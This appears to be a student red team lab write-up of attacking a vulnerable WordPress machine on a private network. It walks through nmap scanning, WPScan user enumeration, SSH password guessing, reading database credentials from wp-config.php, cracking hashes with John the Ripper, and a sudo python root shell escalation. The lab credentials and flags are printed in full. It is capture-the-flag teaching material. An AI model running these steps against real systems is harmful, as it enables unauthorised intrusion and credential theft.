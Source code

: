 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -O -sV 192.168.1.110
```
![Target 1 nmap scan]()

This scan identifies the services below as potential points of entry:
- Target 1
  - SSH (TCP port 22) - OpenSSH 6.7p1
  - HTTP (TCP port 80) - Apache 2.4.10
  - rpcbind (TCP port 111) - 2-4 (RPC #100000)
  - netbios-ssn (TCP port 139) - Samba 3.X - 4.X
  - microsoft-ds (TCP port 445) - Samba 3.X - 4.X

The following vulnerabilities were identified on each target:
- Target 1
  - User enumeration via WPScan.
  - Weak user passwords (easily guessable).
  - Poor directory access control.
  - Sensetive information in publically viewable files.
  - Privilege escalation via sudo access to python.

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**
      - WPScan to enumerate publically accessible users for the wordpress server.
      - wpscan --url 192.168.1.110/wordpress --enumerate u
      - ![WPScan users result]()

      - Guessed password for user michael to gain access to server via SSH.
      - Password: michael
      - ![SSH access gained]()

      - Navigated to /var/www/html and used `cat` to find flag1.
      - ![Flag1]()

  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - While logged in as user michael, navigated to /var/www (default directory for apache websites) and used cat to obtain flag.
      - `cd /var/www`
      - `cat flag2.txt`
      - ![Flag 2]()

  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Found the MySQL root user password in /var/www/html/wordpress/wp-config.php.
      - `cd /var/www/html/wordpress`
      - `cat wp-config.php`
      - Root password: R@v3nSecurity
      - ![wp-config.php]()

      - Using the root credentials, logged into the MySQL database and manually checked all tables. Flag 3 found in wp_posts
      - `mysql -u root -p`
      - `SHOW DATABASES;`
      - `USE wordpress;`
      - `SHOW TABLES;`
      - `SELECT * FROM wp_posts;`
      - ![Flag 3]()

  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Found user hashes within the MySQL database table `wp_users` for users `michael` and `steven`. Used `john the ripper` to crack the hash for `steven`.
      - `SELECT * FROM wp_users;`
      - ![wp_users]()

      - `john wp_hashes.txt`
      - Password: pink84
      - ![john]()

      - Logged in as user `steven` onto the server and checked if user had sudo permissons.
      - `ssh steven@192.168.1.110`
      - `sudo -l`
      - ![steven ssh & sudo]()

      - Used the below python script to elevate permissions to the `root` user, navigated to the `root` user's home directory and used `cat` to obtain flag4.
      - `sudo python -c 'import os; os.system("/bin/sh")'`
      - `cd ~`
      - `cat flag4.txt`
      - ![flag4]()

